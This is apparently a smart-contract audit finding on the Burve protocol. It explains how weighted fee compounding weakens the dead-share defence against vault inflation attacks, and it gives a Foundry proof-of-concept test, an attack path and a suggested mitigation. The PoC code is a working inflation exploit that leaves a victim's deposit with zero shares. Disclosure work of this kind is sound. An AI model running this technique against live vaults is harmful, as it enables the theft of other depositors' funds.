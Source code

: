 Early Infrared Albatross

Medium

# Liquidity normalization makes inflation attack protection vulnerable

### Summary

Burve uses a deadShare of 100 to protect against inflation attacks, which is a relatively small defense value. Then due to the design of the protocol, the increased liquidity when V3 compounding fees will increase the totalNominalLiq in proportion to the weight of the island, which makes the protection against inflation attacks more Vulnerable.

### Root Cause

According to the [discussion](https://forum.openzeppelin.com/t/erc4626-inflation-attack-discussion/41643), deadShare cannot completely defend against inflation attacks.
> For instance, an attacker initially deposits 2 wei, receiving 1 wei as a share and leaving 1 wei as a dead share. Subsequently, the attacker can donate 200e18 tokens to the vault
before another user deposits 100e18 tokens. In this scenario, the user receives 0 shares
because shareAmountOut = assetsIn * totalSupply / totalAssets = 100e18 * 2 / (200e18 + 2) = 0. Consequently, 2 share tokens can acquire 300e18 assets (200e18 + 100e18), enabling attacker to obtain 150e18 assets by 1 share. Although this appears to result in a loss of 50e18 assets for the attacker, in reality, anyone depositing less than 100e18 assets will receive 0 shares, allowing the attacker to gain more assets per share.

In [`Burve.sol:27`](https://github.com/sherlock-audit/2025-04-burve-thereksfour//blob/5ade42e1baf8357f39e3ac6c001c290f39f9d31a/Burve/src/single/Burve.sol#L27-L28), the protocol uses a deadShare of 100, but in [`Burve.sol:886`](https://github.com/sherlock-audit/2025-04-burve-thereksfour//blob/5ade42e1baf8357f39e3ac6c001c290f39f9d31a/Burve/src/single/Burve.sol#L886-L900), due to the design of the protocol, V3 compounding fees will not be deposited into island, but the corresponding liquidity of island will be increased in totalNominalLiq, resulting in users being able to inflate totalNominalLiq with very little liquidity, that is, inflate the value per share, thereby reducing the equivalent deadShare.

In the test, the actual effect of deadShare is equivalent to 100/(weight[island]/weight[V3]), that is, the heavier the island weight, the lower the equivalent deadShare.

In the test, make `weights[island] == 20`, `weights[V3] == 1`.
```solidity
        uint128[] memory weights = new uint128[](2);
        weights[0] = 20;
        weights[1] = 1;

        burve = new BurveExposedInternal(
            Mainnet.KODIAK_WBERA_HONEY_POOL_V3,
            Mainnet.KODIAK_WBERA_HONEY_ISLAND,
            address(stationProxy),
            ranges,
            weights
        );
```
After that, 100 deadShares are minted to burve and 100 shares are minted to alice.
```solidity
        uint128 deadLiq = 100;
        (uint256 deadShares, uint256 deadIslandShares) = deadShareMint(
            address(burve),
            deadLiq
        );

        uint128 liq = 100;
        // deal required tokens
        deal(address(token0), address(alice), 1e18);
        deal(address(token1), address(alice), 1e18);
        
        vm.startPrank(alice);

        // approve transfer
        token0.approve(address(burve), 1e18);
        token1.approve(address(burve), 1e18);

        burve.mint(address(alice), liq, 0, type(uint128).max);
        vm.stopPrank();
```
Then, donate 1.5e18 token0 and 4.5e18 token1 to burve, and trigger compounding fees.

**Note that these tokens are only equivalent to about 9.9e18 liquidity of V3, but since island's liquidity will increase in proportion to its weight, island will increase its liquidity by 198e18, so totalNominalLiq will increase by about 208e18. The attacker can inflate a larger value per share by donating fewer tokens.**
```solidity
        deal(address(token0), address(burve), 1.5e18);
        deal(address(token1), address(burve), 4.5e18);
        burve.compoundV3RangesExposed();
        console.log(burve.totalNominalLiq()); // 208e18
        console.log(burve.totalShares());    // 200
```
Afterwards, the victim mints 1e18 liquidity. Since mintNominalLiq * totalShares / totalNominalLiq = 1e18 * 200 / 208e18 will be rounded down to 0, the victim will not receive any shares, and the tokens deposited by the victim will be stolen by deadShare and the attacker.
```solidity
        vm.startPrank(charlie);

        token0.approve(address(burve), 1e18);
        token1.approve(address(burve), 1e18);

        (uint256 queryAlice0, uint256 queryAlice1) = burve.queryValue(alice);
        console.log(queryAlice0,queryAlice1); // 0.75e18, 2.20e18
        // mint
        burve.mint(address(charlie), 1e18, 0, type(uint128).max);
        console.log(burve.balanceOf(charlie)); // 0

        (queryAlice0, queryAlice1) = burve.queryValue(alice);
        console.log(queryAlice0,queryAlice1);// 0.754e18, 2.21e18
        vm.stopPrank();
```
Although the attacker lost a portion of the donated tokens (1/2 in the example), every time other users deposit tokens, they will lose up to 1 share of value each time. Since the value per share is high, the attacker can quickly make profits.

### Internal Pre-conditions

None

### External Pre-conditions

None

### Attack Path

1. The attacker deposits tokens.
2. The attacker donates tokens to increase the value per share
3. The victim loses tokens when depositing due to precision loss, and the attacker can steal them.

### Impact

This issue makes the protocol vulnerable to inflation attacks, which attackers can exploit to steal the assets of other depositors.

### PoC

```solidity
    function test_Mint_SenderIsRecipient() public forkOnly {
        uint128 deadLiq = 100;
        (uint256 deadShares, uint256 deadIslandShares) = deadShareMint(
            address(burve),
            deadLiq
        );

        uint128 liq = 100;
        // deal required tokens
        deal(address(token0), address(alice), 1e18);
        deal(address(token1), address(alice), 1e18);
        
        vm.startPrank(alice);

        // approve transfer
        token0.approve(address(burve), 1e18);
        token1.approve(address(burve), 1e18);

        burve.mint(address(alice), liq, 0, type(uint128).max);
        vm.stopPrank();

        deal(address(token0), address(burve), 1.5e18);
        deal(address(token1), address(burve), 4.5e18);
        burve.compoundV3RangesExposed();
        console.log(burve.totalNominalLiq()); // 208e18
        console.log(burve.totalShares());    // 200
        deal(address(token0), address(charlie), 1e18);
        deal(address(token1), address(charlie), 1e18);

        vm.startPrank(charlie);

        token0.approve(address(burve), 1e18);
        token1.approve(address(burve), 1e18);

        (uint256 queryAlice0, uint256 queryAlice1) = burve.queryValue(alice);
        console.log(queryAlice0,queryAlice1); // 0.75e18, 2.20e18
        // mint
        burve.mint(address(charlie), 1e18, 0, type(uint128).max);
        console.log(burve.balanceOf(charlie)); // 0

        (queryAlice0, queryAlice1) = burve.queryValue(alice);
        console.log(queryAlice0,queryAlice1);// 0.754e18, 2.21e18
        vm.stopPrank();
    }
```

### Mitigation

It is recommended to increase the number of deadShares or limit the weight ratio.